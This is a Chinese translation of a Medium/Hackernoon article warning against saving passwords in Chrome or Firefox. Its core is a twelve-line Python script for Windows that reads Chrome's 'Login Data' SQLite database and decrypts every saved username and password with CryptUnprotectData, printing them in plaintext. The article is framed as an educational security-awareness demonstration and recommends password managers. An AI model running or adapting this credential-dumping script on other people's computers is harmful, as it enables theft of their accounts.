




# 为什么永远不要在 Chrome 或 Firefox 上保存密码

> 原文：<https://medium.com/hackernoon/why-you-should-never-save-passwords-on-chrome-or-firefox-96b770cfd0d0>

## 用 12 行代码提取您的明文密码



在这篇文章中，我将展示黑客提取你的 Chrome 档案中的每个用户名和密码是多么容易。有人会认为 Chrome 会有安全措施来加密你的密码，但显然事实并非如此——算是吧。我的 Chrome 个人资料，像许多其他人一样，设置了另一个加密密码，我必须输入才能同步我所有的密码、书签、设置、浏览器历史等。所以对我来说，提取和解密我的密码是如此容易，这让我非常震惊。*十二行代码简单易行。*

# 概念演示和验证

在我们开始之前，我应该提一下，我还没有在 macOS 或任何 Linux 发行版上测试过这个。要复制此演示，您必须使用 Python 在 Windows 环境下运行。

首先，让我们开始导入所有需要的依赖项，并设置 Chrome 配置文件用户数据的文件夹位置。必需的依赖项:sqlite3 和 win32crypt

```
# os and sqlite3 ships with Python by default. If you get import errors for win32crypt use "pip install pypiwin32" to install the dependency.import os, sqlite3, win32crypt# Automatically get the logged in user's default folderdata = os.path.expanduser('~')+"\AppData\Local\Google\Chrome\User Data\Default\Login Data"
```

接下来，我们将不得不使用 sqlite3 连接到 Chrome 存储所有用户数据的数据库。让我们来看看数据库结构。我使用了一个名为 SQLite Expert 的免费工具，但软件的选择并不重要，甚至不需要——我只是一个非常视觉化的家伙。



The database structure of how your passwords are stored on Chrome

在查看数据库表时，有三列引起了我的注意:*动作 _url、用户名 _ 值和密码 _ 值*。注意*密码值*类型是 BLOB——它是加密的，但是设计很差(我们稍后会谈到)。



Looks like a bunch of gibberish, right? Not for long.

从这里开始，我们将进行一个简单的 SQL 查询来获取相应的值，并存储它们以供解密。

如果你得到一个关于数据库被锁定的错误，那是因为另一个程序(可能是你正在阅读的 Chrome 窗口😉)已经打开了数据库。你需要关闭所有的 Chrome 窗口，并且最好按 control+alt+delete 来确保没有 Chrome 服务在运行。

```
# Connect to Login Data databaseconnection = sqlite3.connect(data)
cursor = connection.cursor()# Query the values of interest to uscursor.execute('SELECT action_url, username_value, password_value FROM logins')
final_data = cursor.fetchall()# Close the database connectioncursor.close()
```

我们现在收集的加密密码是由 Windows 函数 *CryptProtectData* 生成的。数据只能由拥有相同 *Windows* 登录凭证的用户解密，并且只能在加密数据的同一台计算机上解密。听起来超级安全！对吗？

嗯，不。如果黑客已经设法进入你的计算机，无论是通过一个未受保护的端口还是你设法感染的僵尸网络类型的木马，那么黑客已经有了你的 Windows 凭据，解密功能将在你的计算机上运行。正如有 *CryptProtectData* 一样，也有 *CryptUnprotectData* 函数，我们将使用它来获取密码的明文版本。

```
# Iterating through all the values found...for chrome_logins in final_data:
    password = win32crypt.CryptUnprotectData(chrome_logins[2], None, None, None, 0)[1]
    print("Website  : "+str(chrome_logins[0]))
    print("Username : "+str(chrome_logins[1]))
    print("Password : "+str(password))
```

仅此而已。在短短的 12 行代码中，我以明文**的形式提取了自 2011 年**以来所有 588 个保存的密码。



其他敏感数据，如浏览历史和 cookies，也可以使用类似的方法轻松提取。

# 结束语

我认为使用不同的密码登录每个网站足以保护我自己。对于提供双因素身份验证的站点来说，这可能是真的，但现实是大多数站点尚未集成 2FA 功能。

那么我们如何保护自己的密码呢？现在市场上有很多第三方密码管理器，这似乎是一个明智的选择(自己做研究，因为坦白地说，我到现在还没有用过它们，所以不能提供建议)。不过，有一点很清楚——依靠 Chrome 来保护你的密码是一个非常非常糟糕的主意。

我不得不承认，浏览密码列表就像是在回忆中旅行。我早就忘记的网站，我忘记的账户，甚至一些我忘记了我有资金的加密货币交易所。下面是这个脚本的一个稍微长一点的版本，它将所有信息保存到一个文本文件中，如果您想查看您保存的全部登录数据，就可以查看这个文本文件。

声明:我不对任何白痴以任何非法或道德上有问题的方式误用这个脚本的决定负责。这次演示完全是为了教育目的。